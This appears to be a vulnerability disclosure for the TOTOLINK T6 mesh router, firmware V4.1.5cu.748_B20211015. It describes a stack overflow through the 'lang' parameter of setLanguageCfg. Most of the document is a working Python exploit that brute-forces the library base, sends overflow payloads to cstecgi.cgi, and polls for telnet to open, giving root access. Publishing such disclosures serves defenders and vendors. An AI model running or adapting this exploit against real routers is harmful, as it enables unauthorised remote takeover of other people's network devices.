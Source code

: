 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` is 256 bytes.

![](2/1.png)

`lang` is the param attacker control.

![](2/2.png)

`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](2/3.png)

Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=0rEefcxuqpU) - Turn on telnet by bruteforcing dynamic library base<br>
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Make the system to reboot